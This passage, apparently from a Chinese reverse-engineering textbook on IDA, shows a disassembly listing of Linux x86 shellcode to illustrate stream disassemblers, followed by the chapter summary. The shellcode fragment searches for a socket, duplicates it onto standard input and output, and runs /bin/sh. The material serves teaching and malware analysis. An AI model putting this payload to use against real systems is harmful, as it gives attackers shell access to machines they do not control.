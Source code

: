 ```
00000011  6A66       push byte  +0x66

00000013  58              pop eax

00000014  CD80       int 0x80

00000016  66817D02115C    cmp  word [ebp+0x2],0x5c11

0000001C  75F1       jnz  0xf

0000001E  5B             pop ebx

0000001F  6A02       push byte  +0x2

00000021  59             pop ecx

00000022  B03F       mov  al,0x3f

00000024  CD80       int 0x80

00000026  49              dec ecx

00000027  79F9       jns  0x22

00000029  52              push edx

0000002A  682F2F7368      push dword 0x68732f2f

0000002F  682F62696E      push dword 0x6e69622f

00000034  89E3       mov  ebx,esp

00000036  52              push edx

00000037  53             push ebx

00000038  89E1       mov  ecx,esp

0000003A  B00B       mov  al,0xb

0000003C  CD80       int 0x80
```
由于流式反汇编非常灵活，因此它的用途相当广泛。例如，在分析网络数据包中可能包含shellcode的计算机网络攻击时，就可采用流式反汇编器来反汇编数据包中包含shellcode的部分，分析恶意负载的行为。另外一种情况是分析那些格式未知的ROM镜像。ROM中有些部分是数据，其他部分则为代码，可以使用流式反汇编器来反汇编镜像中的代码。

### 1.4     小结

本章所讨论的工具不一定是同类中最好的，但它们是从事二进制文件逆向工程的分析人员常用的工具。更重要的是，这些工具大大促进了IDA的开发过程。在接下来的几章中，我们还会讨论这些工具。掌握这些工具可为你了解IDA的用户界面以及它显示的许多信息提供极大帮助。

 
